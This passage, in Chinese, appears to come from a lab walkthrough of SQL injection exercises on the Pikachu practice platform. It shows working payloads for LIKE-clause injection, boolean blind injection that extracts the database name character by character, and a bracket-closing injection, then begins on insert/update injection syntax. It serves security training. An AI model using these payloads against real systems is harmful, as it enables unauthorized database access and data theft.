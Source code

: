 输入：' and 1=1 and '%'='

此时后端查询语句为：select name form 某表 like '%' and 1=1 and '%'='%';like后的值都为1，故回显出此表的所有结果

![](https://i.loli.net/2021/02/13/S2U5GDwlEnyYvM7.png)

这里没有回显位，盲注一下：

```
kobe' and length(database())=7 #				#正常回显,数据库长度为7
kobe' and ord(substr(database(),1,1))=112 #		
ord()返回括号内字符的asii码；substr(字符串,起始位置，字符数目)
```

burpsuite一下：

![](https://i.loli.net/2021/02/14/YLkPq2fuAZr6UFK.png)

112 105 107 97 99 104 117   =》 p i k a c h u

### xx型注入

tip:管tmd的什么型,能够制造出闭合,就是本事

payload:

```
?name=1') --+
```

![](https://i.loli.net/2021/02/14/HI5VlwvXSx4zM9a.png)

### insert/update注入

insert语句：在数据库中添加数据

```mysql
两种形式：
1.INSERT...VALUES：
insert into <表名> [<列名1> [ , ...<列名n>]]
values (值1) [... , (值n) ];

2.INSERT...SET：
insert into <表名>
set <列名1> = <值1>
	<列名2> = <值2>
	...;
```

update语句：修改、更新数据

```mysql
update <表名> set 字段 1 = 值 1 [,字段 2 = 值 2… ] [where 子句 ]
[order by 子句] [limit 子句];
```



